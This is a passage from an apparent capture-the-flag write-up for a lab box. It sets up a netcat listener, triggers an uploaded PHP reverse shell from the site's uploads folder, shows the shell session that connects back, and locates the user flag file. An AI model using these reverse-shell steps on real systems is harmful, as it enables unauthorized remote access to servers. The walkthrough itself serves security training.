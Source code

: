 ```
$ nc -nlvp 9999
```

* Next, let's go to the `/uploads` folder.&#x20;

<figure><img src="../../.gitbook/assets/9 (15).png" alt=""><figcaption></figcaption></figure>

* On clicking on the `php-reverse-shell.php5` link, a request will be sent to our IP address on the `9999` port which will be caught by our `netcat` listener.

```
$ nc -nlvp 9999                                  
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.216.90] 44132
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:26:08 up 54 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

* We have our reverse shell.
* Let's find the `user.txt` file using the `find` command.

```
$ find / -name user.txt 2>/dev/null  
/var/www/user.txt
```

* Now we simply have to `cat` the file.
